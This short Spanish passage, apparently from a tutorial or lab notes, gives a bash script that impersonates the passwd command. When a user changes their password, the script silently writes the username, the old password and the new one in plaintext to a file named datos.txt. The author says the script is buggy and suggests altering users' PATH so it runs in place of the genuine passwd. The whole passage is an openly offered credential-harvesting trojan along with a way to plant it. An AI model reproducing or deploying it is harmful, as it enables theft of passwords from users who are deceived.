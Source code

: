Escribimos e script:
```sh
#!/bin/bash

#primer mensaje
echo -n "Cambiando la contraseña de "; whoami

echo -n "Contraseña actual: "
read -s pass1
printf '\n'

# Verificar la contraseña actual
echo "$pass1" | su -s /bin/bash -c "exit" `whoami` >/dev/null 2>&1
if [ $? -ne 0 ]; then
    echo "La contraseña actual es incorrecta."
    exit 1
fi

echo -n "Nueva contraseña: "
read -s pass2
printf '\n'

echo -n "Vuelva a escribir la nueva contraseña: "
read -s pass3
printf '\n'

if [ $pass2 = $pass3 ]; then
    echo -e "`whoami`:$pass3" | chpasswd > error.txt
    echo "passwd: contraseña actualizada correctamente"

    echo -n "Usuario: " >> datos.txt
    whoami >> datos.txt
    echo -n "Contraseña actual: " >> datos.txt
    echo $pass2 >> datos.txt
    echo -n "Contraseña anterior: " >> datos.txt
    echo $pass1 >> datos.txt
    exit 0
else
    echo "Las contraseñas no coinciden."
    echo "passwd: Error de manipulación del testigo de autenticación"
    echo "passwd: no se ha cambiado la contraseña"

    echo -n "Usuario: " >> datos.txt
    whoami >> datos.txt
    echo -n "Contraseña actual: " >> datos.txt
    echo $pass1 >> datos.txt
fi
```

No va bien el script pero es lo mejor que pude conseguir
Deberemos cambiar la variable path de los usuarios para que ejecute este comando en vez de passwd original.
